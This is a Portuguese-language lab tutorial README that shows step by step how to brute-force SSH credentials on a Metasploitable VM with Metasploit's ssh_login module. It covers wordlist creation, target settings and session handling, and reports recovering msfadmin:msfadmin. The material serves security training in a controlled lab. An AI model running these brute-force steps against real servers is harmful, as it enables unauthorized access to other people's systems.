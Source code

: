 
# Exploração de Falhas no SSH

## 🛠️ Ferramentas Necessárias
- 💻 **Kali Linux**  
- 💻 **Metasploitable**

---

## 🔎 Visão Geral

O **protocolo SSH (Secure Shell)** é amplamente utilizado para comunicação remota segura entre dispositivos, executado na **porta 22**. Este projeto demonstra um **ataque de força bruta** com o Metasploit para encontrar credenciais utilizando wordlists.

---

## 🔧 Configuração e Execução

### 1️⃣ No Kali Linux

1. Acesse como administrador:
   ```bash
   sudo su
   ```

   Inicie o Metasploit Console:
   ```bash
   msfconsole
   ```

2. Pesquise o módulo de ataque SSH:
   ```bash
   search ssh_login
   ```

3. Configure o exploit:
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   info  # Exibe detalhes do ataque
   ```

4. Crie as wordlists para o ataque de força bruta:

   **Lista de senhas:**
   ```bash
   nano password.txt
   ```
   Adicione: `test`, `password`, `msfadmin`. Salve com CTRL+O e saia com CTRL+X.

   **Lista de usuários:**
   ```bash
   nano user.txt
   ```
   Adicione: `test`, `user`, `msfadmin`. Salve com CTRL+O e saia com CTRL+X.

5. Configure o alvo e os arquivos:
   ```bash
   set RHOSTS X.X.X.X  # IP da máquina alvo
   set USER_FILE /home/kali/user.txt
   set PASS_FILE /home/kali/password.txt
   ```

6. Execute o ataque de força bruta:
   ```bash
   exploit
   ```

7. Gerencie as sessões:

   **Listar sessões ativas:**
   ```bash
   sessions
   ```

   **Conectar-se a uma sessão:**
   ```bash
   sessions X  # Substitua X pelo número da sessão
   ```

---

### 2️⃣ No Metasploitable

1. Faça login na máquina:
   ```bash
   msfadmin  # Usuário
   msfadmin  # Senha
   ```

2. Obtenha o IP da máquina:
   ```bash
   ip addr
   ```

3. Crie uma flag:
   ```bash
   echo "esta é a flag do alvo" > /home/msfadmin/flag.txt
   ```

---

## ⚠️ Atenção
Este projeto é apenas para fins educacionais. Não utilize para fins maliciosos.

## 📊 Resultados
Este ataque foi testado com sucesso em um ambiente controlado utilizando o Kali Linux e o Metasploitable. O ataque de força bruta encontrou as credenciais `msfadmin:msfadmin`, demonstrando a vulnerabilidade do protocolo SSH com credenciais fracas. Use essas informações com responsabilidade!
